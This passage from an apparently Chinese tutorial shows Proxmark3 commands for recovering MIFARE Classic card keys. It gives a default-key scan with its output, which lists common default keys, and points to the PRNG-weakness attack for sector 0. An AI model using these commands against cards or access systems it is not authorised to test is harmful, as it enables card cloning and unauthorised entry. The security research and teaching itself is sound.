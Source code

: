 ![7](/img/2018-07-26/7.png)
###### 获取0扇区密钥
扯远了，默认密码扫描`hf mf chk *1 ? t`
```
proxmark3> hf mf chk *1 ? t
No key specified, trying default keys
chk default key[ 0] ffffffffffff
chk default key[ 1] 000000000000
chk default key[ 2] a0a1a2a3a4a5
chk default key[ 3] b0b1b2b3b4b5
chk default key[ 4] aabbccddeeff
chk default key[ 5] 4d3a99c351dd
chk default key[ 6] 1a982c7e459a
chk default key[ 7] d3f7d3f7d3f7
chk default key[ 8] 714c5c886e97
chk default key[ 9] 587ee5f9350f
chk default key[10] a0478cc39091
chk default key[11] 533cb6c723f6
chk default key[12] 8fd0a4f256e9
--sector: 0, block:  3, key type:A, key count:13
		.
		.
		.
--sector:15, block: 63, key type:B, key count:13
Found valid key:[ffffffffffff]
Found keys have been transferred to the emulator memory
```
密码是默认密码的时候可以扫的出来，不是默认密码可以尝试PRNG漏洞获取0扇区密钥`hf mf mifare`
```
proxmark3>hf mf mifare
		.
		.
		.
uid(ea117dee) nt(431c39b0) par(0000000000000000) ks(030702000a030209) nr(800000005)
```